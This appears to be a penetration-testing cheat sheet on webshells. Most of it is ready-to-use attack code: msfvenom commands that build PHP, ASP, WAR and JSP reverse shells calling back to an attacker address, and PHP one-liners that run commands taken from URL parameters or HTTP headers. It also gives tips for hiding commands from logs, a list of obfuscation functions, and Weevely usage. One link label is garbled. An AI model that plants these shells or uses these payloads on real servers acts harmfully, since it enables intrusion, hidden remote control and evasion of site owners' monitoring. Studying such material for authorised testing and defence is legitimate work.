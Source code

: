 # Webshells

## Built in List with Kali Linux

```bash
ls -la /usr/share/webshells
```

## Reverse-Shells

* [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
* [http://pentestmonkey.net/cheat-sheet/shells/reverse-sthe hell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Webshells - Platform Independent

* a webshell is a shell that you can access through the web
* useful for when you have firewalls that filter outgoing traffic on ports other than port 80
* more stealthy since the traffic is hidden in the http traffic.

## PHP

### This PHP-shell is OS-Independent. Inject into Pages that Use PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

### Execute One Command

```bash
<?php system("whoami"); ?>
```

### Take Input from the URL Parameter... shell.php?cmd=whoami

```bash
<?php system($_GET['cmd']); ?>
```

### The Same as Above but Using Passthru

```bash
<?php passthru($_GET['cmd']); ?>
```

### For shell\_exec to Output the Result, Echo it

```bash
<?php echo shell_exec("whoami");?>
```

### Return the Output as an Array, and then Print it All

```bash
<?php exec("ls -la",$array); print_r($array); ?>
```

### This is a Cool Trick

```bash
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

### Using Backticks

```bash
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```

```bash
<?php `echo whoami`; ?>
```

### Execute the Commands Like This

```bash
[http://192.168.1.103/index.php?cmd=pwd](http://192.168.1.103/index.php?cmd=pwd)
```

## ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

## WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```

## Access to Different Webshells on Kali

```bash
/usr/share/webshells
```

## Make it Stealthy

* we can make the commands from above a bit more stealthy
* instead of passing the cmds through the url, which will be obvious in logs, we pass them through other header-paramters
* tampterdata, burpsuit, netcat or curl to insert the commands

```bash
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

```bash
<?php system($_SERVER['HTTP_USER_AGENT'])?>
```

```bash
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

## Obfuscation

### The Following Functions Can be Used to Obfuscate the Code

```bash
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

## Weevely - Incredible tool!

* weevely can create php webshells easily
* weevely generates password /root/webshell.php

### Now Execute it and Get a Shell in Return

```bash
weevely "[http://192.168.1.101/webshell.php](http://192.168.1.101/webshell.php)" password
```

## References

* [http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/](http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)
* [http://www.binarytides.com/web-shells-tutorial/](http://www.binarytides.com/web-shells-tutorial/%5Estage)

